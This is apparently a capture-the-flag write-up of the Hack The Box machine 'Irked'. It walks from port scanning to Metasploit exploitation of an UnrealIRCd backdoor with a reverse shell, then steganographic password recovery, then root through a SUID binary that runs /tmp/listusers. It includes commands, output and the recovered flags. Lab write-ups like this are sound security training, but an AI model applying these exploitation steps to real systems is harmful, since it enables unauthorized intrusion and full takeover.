

# Irked

## Enumeration
Let's start with nmap
```bash
kali@kali:~/hackthebox/Practice/Irked$ cat nmap.txt 
# Nmap 7.80 scan initiated Mon Jun  8 10:48:54 2020 as: nmap -sC -sV -oN nmap.txt -p- 10.10.10.117
Nmap scan report for 10.10.10.117
Host is up (0.023s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesnt have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35330/udp6  status
|   100024  1          45857/udp   status
|   100024  1          46205/tcp   status
|_  100024  1          51813/tscp6  status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
46205/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun  8 10:50:48 2020 -- 1 IP address (1 host up) scanned in 113.77 seconds
```
Let's see what's at port 80. 

Let's run gobuster in the background to see if we find anything.
```bash
kali@kali:~/hackthebox/Practice/Irked$ ~/Downloads/gobuster/gobuster dir -u 10.10.10.117 -w /usr/share/wordlists/dirb/directory-list-2.3-small.txt -x php,log,html,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.117
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     log,html,txt,php
[+] Timeout:        10s
===============================================================
2020/06/12 12:21:21 Starting gobuster
===============================================================
/index.html (Status: 200)
/manual (Status: 301)
```
There's nothing of importance here. Lets see if there are any vulnerabilities with the other services we found.
```bash
kali@kali:~/git/ctf-writeups/hackthebox/Irked$ searchsploit unrealIRC
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                                                               | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                                                                    | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                                                             | linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                                                                  | windows/dos/27407.pl
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
Nice! Lets check out the metasploit module.
```bash
msf5 > search unreal

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/linux/games/ut2004_secure           2004-06-18       good       Yes    Unreal Tournament 2004 "secure" Overflow (Linux)
   1  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution
   2  exploit/windows/games/ut2004_secure         2004-06-18       good       Yes    Unreal Tournament 2004 "secure" Overflow (Win32)


msf5 > use 1
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   6667             yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOSTS 10.10.10.117
RHOSTS => 10.10.10.117
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RPORT 6697
RPORT => 6697
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP double handler on 10.10.14.13:4444 
[*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
[*] 10.10.10.117:6697 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo mnbyuhnupKUOCVK3;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "mnbyuhnupKUOCVK3\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.13:4444 -> 10.10.10.117:52637) at 2020-06-12 11:54:32 -0400

python -c 'import pty;pty.spawn("/bin/bash");'
ircd@irked:~/Unreal3.2$ 
```
Now that we got a low priviledge shell lets move on to user.
## User 
After some poking around, I found another user named djmardov and some interesting files.
```bash
ircd@irked:/home/djmardov/Documents$ ls -la
ls -la
total 16
drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3  2018 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
ircd@irked:/home/djmardov/Documents$ cat .back
cat .backup 
lSuper elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```
We found a password for a steg challenge. If you remember the home page, there was an image there we could download, or from /var/www/irked.jpg. On our machine:
```bash
kali@kali:~/hackthebox/Practice/Irked$ steghide extract -sf irked.jpg 
Enter passphrase: 
wrote extracted data to "pass.txt".
kali@kali:~/hackthebox/Practice/Irked$ cat pass.txt 
Kab6h+m+bbp2J:HG
```
A su password maybe?
```bash
ircd@irked:/home/djmardov/Documents$su djmardov
su djmardov
Password: Kab6h+m+bbp2J:HG

djmardov@irked:~/Documents$ ls
ls
user.txt
djmardov@irked:~/Documents$ cat user.txt
cat user.txt
4a66a78b12dc0e661a59d3f5c0267a8e
```
## Root
To begin
```bash
djmardov@irked:~/Documents$ find /usr/bin/ -perm -4000
find /usr/bin/ -perm -4000
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
```
If you have done previous linux boxes, you know what to expect here. The binary that stands out is /usr/bin/viewuser. Let's see what it does.
```bash
djmardov@irked:/usr/bin$ viewuser
viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-06-12 11:30 (:0)
sh: 1: /tmp/listusers: not found
```
The bin is looking for a file in /tmp/listusers, maybe we can use it to get a shell.
```bash
djmardov@irked:/tmp$ echo '/bin/sh' > listusers
echo '/bin/sh' > listusers
djmardov@irked:/tmp$ chmod +rwx listusers
chmod +rwx listusers
djmardov@irked:/tmp$ /uar/bin/viewuser
/usr/bin/viewuser   
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-06-12 11:30 (:0)
# whoami
whoami
root
# cat /root/root.txt
cat /root/root.txt
8d8e9e8be64654b6dccc3bff4522daf3
```
## Conclusion
Looking back, you can also get root directly from the initial shell. Looking forward for more stegaography challenges in htb. 